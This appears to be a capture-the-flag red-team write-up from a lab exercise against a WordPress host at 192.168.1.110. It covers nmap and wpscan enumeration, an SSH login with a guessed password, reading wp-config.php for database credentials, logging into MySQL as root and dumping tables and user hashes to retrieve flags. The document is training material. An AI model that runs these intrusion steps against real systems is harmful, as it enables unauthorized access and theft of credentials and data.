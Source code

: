 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
nmap -sS -A 192.168.1.110
```
![nmap1](../images/nmap1.JPG)
![nmap2](../images/nmap2.JPG)


This scan identifies the services below as potential points of entry:

`Target 1`

| **PORT** | **Port Status** | **Service** |                    **Version**                   |
|:--------:|:---------------:|:-----------:|:------------------------------------------------:|
| 22/tcp   | open            | ssh         | OpenSSH 6.7 Debian 5+deb8u4 (protocol 2.0)       |
| 80/tcp   | open            | http        | Apache httpd 2.4.10 ((Debian))                   |
| 111/tcp  | open            | rpcbind     | 2-4 (RPC #100000)                                |
| 139/tcp  | open            | netbios-ssn | Samba 3.X - 4.X (workgroup: WORKGROUP)           |
| 445/tcp  | open            | netbios-ssn | Sambra smbd 4.2.14-Debian (workgroup: WORKGROUP) |

The following vulnerabilities were identified on each target:
- `Target 1`
  - [CVE-2021-28041 open SSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)
  - [CVE-2017-15710 Apache https 2.4.10](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
  - [CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS](https://nvd.nist.gov/vuln/detail/CVE-2017-8779) 
  - [CVE-2017-7494 Samba NetBIOS](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)

### Exploitation
- Enumeration and Network Mapping
  - Nmap was used to discover open ports
    - This helped me determine how best to attack the system
![nmap1](../images/nmap1.JPG)
![nmap2](../images/nmap2.JPG)

- Weak passwords
  - In this case `michael`'s password was `michael`. 
    - A password this simple is easily guessed by a hacker. Guessing this password without using a Brute Forcing method would make it difficult for the defense to detect that it was a malicious user who logged in, rather than Michael. 

![hydra](../images/hydra_michael.JPG)

- MySQL Database Access
  - Wpscan enumerated users
    - Using SSH with `Michael`'s password above, I was able to access the WordPress database

![wpscan1](../images/wpscan1.JPG)
![wpscan2](../images/wpscan2.JPG)
![wpscan3](../images/wpscan3.JPG)
![ssh_command](../images/ssh_command.JPG)
![wp_config_username_password](../images/wp_config_username_password.JPG)
![wp_config_keys](../images/wp_config_keys.JPG)
![mysql_login](../images/mysql_login.JPG)


- MySQL Data Exfiltration
  - I was able to navigate through the database and find multiple important tables such as:
    - `wp_users`
    - `wp_posts`

![user_hashes](../images/user_hashes.JPG)


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- `Target 1`
  - ***_flag1.txt_***: `flag1{b6bbcb33e11b80be759c4e844862482d}` 

**Exploit Used**

***_flag1.txt_***
- Enumerated the WordPress site using wpscan

  > Command: wpscan --url http://192.168.1.110/wordpress -eu
  
    ![wpscan1](../images/wpscan1.JPG)
    ![wpscan2](../images/wpscan2.JPG)
    ![wpscan3](../images/wpscan3.JPG)

- I then went to the IP address via a web browser and inspected the page source to find the first flag.

  ![webpage_target1](../images/webpage_target1.JPG)
  
  ![flag1.2](../images/flag1.2.JPG)
  
  ![flag1](../images/flag1.JPG)

---

***_flag2.txt_***: `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`
**Exploit Used**

- Using SSH to gain access to Michael's account

  > Command: `ssh michael@192.68.1.110`
  > Enter Password: `michael`

  ![ssh_command](../images/ssh_command.JPG)

  > Command: `cd /var/www`
  > Command: `ls`

  ![flag2](../images/flag2.JPG)

---

***_flag3.txt & flag4.txt_***: `flag3{a0f568aa9de277887f37730d71520d9b}` & `flag4{{715dea6c055b9fe3337544932f2941ce}`
**Exploit Used**
  - Using the SSH shell above, I navigated to `/wordpress`
      
    > Command: `cd /var/www/html/wordpress`
    > Command: `ls`
        
    ![wordpress_config](../images/wordpress_config_directory.JPG)

    > Command: `less wp-config.php`
        
    ![wp_config_keys](../images/wp_config_keys.JPG)
    ![wp_config_username_password](../images/wp_config_username_password.JPG)

    > Command: `mysql -u root -p`
    > Password: `R@v3nSecurity`
        
    ![mysql_login](../images/mysql_login.JPG)

    > Command: `show databases;`
    > Command: `use wordpress;`
    > Command: `show tables;`
    > Command: `select * from wp_posts;`
      
    ![flag3_and_4](../images/flag3_and_4.JPG)
        
